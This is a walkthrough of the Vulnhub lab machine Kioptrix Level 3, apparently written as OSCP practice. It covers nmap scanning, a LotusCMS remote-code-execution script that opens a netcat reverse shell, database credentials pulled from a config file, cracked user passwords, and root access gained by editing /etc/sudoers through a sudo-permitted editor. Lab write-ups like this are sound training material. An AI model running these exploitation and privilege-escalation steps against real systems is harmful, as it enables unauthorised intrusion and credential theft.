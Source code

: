 ```yaml
---
weigth: 1
title: "Kioptrix Level 3 Walkthrough"
date: 2023-08-14T11:24:09+02:00
draft: false
author: Antu
publishDate: 2023-08-14
tags: ["Walkthrough", "Vulnhub", "TjNull", "OSCP", "Easy"]
categories: ["Vulnhub"]
images: []
resources: 
- name: "featured-image"
  src: "preimagenKioptrix3.png"

lightgallery: true

toc:
  auto: false
---
```

# Kioptrix Level 3

## Machine Resolution

### Scanning and Vulnerability Analysis

We start with a scan of our local network with the arp command to obtain the ip of our target machine.
```bash
arp-scan -I eth0 --localnet
```

![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled.png)

Once the ip is obtained we proceed to perform a scan with nmap.
```bash
nmap -sCV 192.168.66.161
```

```bash
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-25 13:37 EDT
Nmap scan report for kioptrix3.com (192.168.66.161)
Host is up (0.0099s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 4.7p1 Debian 8ubuntu1.2 (protocol 2.0)
| ssh-hostkey: 
|   1024 30:e3:f6:dc:2e:22:5d:17:ac:46:02:39:ad:71:cb:49 (DSA)
|_  2048 9a:82:e6:96:e4:7e:d6:a6:d7:45:44:cb:19:aa:ec:dd (RSA)
80/tcp open  http    Apache httpd 2.2.8 ((Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.2.8 (Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch
|_http-title: Ligoat Security - Got Goat? Security ...
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.34 seconds
```

After scanning with nmap we see that port 80 is open with an http service so let's see what it contains using our browser in this case Firefox and we see the following website.

![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%201.png)

In the description of the machine tells us to add the domain [kioptrix3.com](http://kioptrix3.com) to our file /etc/hosts to be able to see the web so we open it and add the following:
```bash
192.168.66.161  kioptrix3.com
```

### Exploitation

After surfing the site we can see that the web is made with LotusCMS.
![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%202.png)

So we went to Google to find out if there is any exploit for this CMS and we found the following:

https://github.com/Hood3dRob1n/LotusCMS-Exploit

we clone it to our machine and run

```bash
./lotusRCE.sh kioptrix3.com /

#Enter our ip
192.168.66.152 
#Port
4444
#In another terminal start netcat
nc -nlvp 4444
#select option 1
1
#we have a  shell
nc -nlvp 4444
listening on [any] 4444 ...
connect to [192.168.66.152] from (UNKNOWN) [192.168.66.161] 38651
whoami
www-data
```

We performed a tty treatment to work more comfortably and to be able to do Ctrl+C.
```bash
script /dev/null -c bash
stty raw –echo; fg
reset xterm
export SHELL=bash
export TERM=xterm
stty rows <num> columns <cols>
```

After enumerating for a while we found the file gconfig.php in /home/www/kioptrix3.com/gallery which contains some credentials to the database.

![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%203.png)

we log into mysql:
```bash
mysql -uroot -pfuckeyou
```

And we obtain the credentials of the admin user but after a few attempts it does not help us to change the user.

![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%204.png)

We log into phpmyadmin with the credentials obtained previously.

![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%205.png)

and locate the hashes of the machine's users
![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%206.png)

I have used an online website to crack these hashes by obtaining the password in clear text.

[https://crackstation.net/](https://crackstation.net/)

Dreg

![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%207.png)

loneferret

![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%208.png)

```bash
dreg:Mast3r
loneferret:starwars
```

Once we have obtained the credentials we connect via SSH but we get an error.


![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%209.png)

To solve it we write the following to connect:

```bash
ssh  -oHostKeyAlgorithms=+ssh-dss loneferret@192.168.66.161
```

![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%2010.png)

### Privilege Escalation

If we read the CompanyPolicy.README file it tells us that they have installed new software to edit, create and view files and to use the command "sudo ht".

![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%2011.png)

With sudo -l we see that we have permissions to run it.

![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%2012.png)

if we execute it at first we will get an error so we have to execute the following:

```bash
export TERM=xterm
```

![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%2013.png)

And run it:

```bash
sudo ht
```

To open a file, use the ALT+ F keys and select the open field:
![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%2014.png)

We are going to edit the file /etc/sudoers to be able to launch a shell as root and thus escalate privileges.

To do this, type /etc/sudoers and hit enter.
![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%2015.png)

![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%2016.png)

We add the following command followed by the existing commands to the user loneferret so that he can execute it with sudo.
```bash
, bin/sh
```

![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%2017.png)

Press ALT + F to save and exit.
![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%2018.png)

We get a shell as root:
```bash
loneferret@Kioptrix3:~$ sudo sh
# whoami
root
```
Happy Hacking :)
